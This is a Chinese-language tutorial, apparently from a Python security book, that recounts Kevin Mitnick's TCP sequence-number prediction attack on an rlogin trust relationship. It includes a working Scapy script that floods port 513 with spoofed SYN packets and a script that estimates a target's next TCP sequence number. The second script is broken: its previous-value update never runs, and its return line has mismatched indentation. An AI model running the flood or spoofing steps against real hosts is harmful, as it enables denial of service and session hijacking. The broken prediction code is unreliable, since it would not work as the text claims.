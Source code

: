 ## Kevin Mitnick 和 TCP 序列号预测

Mitnick 使用了一种劫持 TCP 会话的方法。这种技术被称为 TCP 序列号预测，这一技术利用的是原本设计用来区分各个独立的网络连接的 TCP 序列号的生成缺乏随机性这一缺陷。这一缺陷加上 IP 地址欺骗，使得 Mitnick 能够劫持家用电脑中的某个连接。

### 预测你自己的 TCP 序列号

Mitnick 攻击的机器与某台远程服务器之间有可信协议。远程服务器可以通过在 TCP 513 端口上运行的远程登录协议（rlogin）访问 Mitnick 被攻击的计算机。rlogin 并没有使用公钥/私钥协议或口令认证，而是使用了一种不太安全的认证方法——绑定源 IP 地址。

为了攻击电脑，Mitnick 必须做到以下 4 点：

（1）找到一个受信任的服务器

（2）使该服务器无法再做出响应

（3）伪造来自服务器的一个连接

（4）盲目伪造一个 TCP三次握手的适当说明

Mitnick 找到与个人电脑之间有可信协议的远程服务器后，需要使远程服务器不能再发出响应。如果远程服务器发现有人尝试使用服务器 IP 地址进行假连接，它将发送 TCP 重置（reset）数据包关闭连接。为了使服务器无法再做出响应，Mitnick 向服务器上的远程登录（rlogin）端口发出了许多 TCP SYN 数据包，即 SYN 泛洪攻击（SYN Flood），这种攻击将会填满服务器的连接队列，使之无法做出任何响应。

### 使用 Scapy 制造 SYN 泛洪攻击

用 Scapy 重新实现 SYN 泛洪攻击，只需要制造一些载有 TCP 协议层的 IP 数据包，让这些包里 TCP 源端口不断地自增一，而目的 TCP 端口总是为 513

```python
from scapy.all import *

def syn_flood(src, target):
    for sport in range(1024, 65535):
        ip_layer = IP(src=src, dst=target)
        tcp_layer = TCP(sport=sport, dport=513)
        pkt = ip_layer / tcp_layer
        send(pkt)
src = "10.1.1.2"
target = "192.168.1.3"
syn_flood(src, target)
```
### 计算 TCP 序列号

Mitnick 能够伪造一个 TCP 连接到目标。不过，这取决于他能够发送伪造 SYN 包的能力，接着被攻击的机器会返回一个 TCP SYN-ACK 包确认连接。为了完成连接，Mitnick 需要在 SYN-ACK 中正确地猜出 TCP 的序列号（因为他无法观察到），然后把猜到的正确的 TCP 序列号放在 ACK 包中发送回去。

在 Python 中重现这一过程，将发送一个 TCP SYN 包，然后等待 TCP SYN-ACK 包。收到之后，将从这个确认包中读出 TCP 序列号，并把它打印到屏幕上。编写的函数 `cal_tsn` 将接收目标 IP 地址这个参数，返回下一个 SYN-ACK 包的序列号（当前 SYN-ACK 包的序列号加上差值）

```python
from scapy.all import *
def cal_tsn(target):
    seq_num = 0
    pre_num = 0
    diff_seq = 0
    for x in range(1, 5):
        if pre_num != 0:
            pre_num = seq_num
        pkt = IP(dst=target) / TCP()
        ans = sr1(pkt, verbose=0)
        seq_num = ans.getlayer(TCP).seq
        diff_seq = seq_num - pre_num
        print("[+] TCP Seq Difference: {}".format(diff_seq))
	return seq_num + diff_seq

target = "192.168.1.106"
seq_num = cal_tsn(target)
print("[+] Next TCP Sequence Number to ACK is: {}".format(seq_num + 1))
```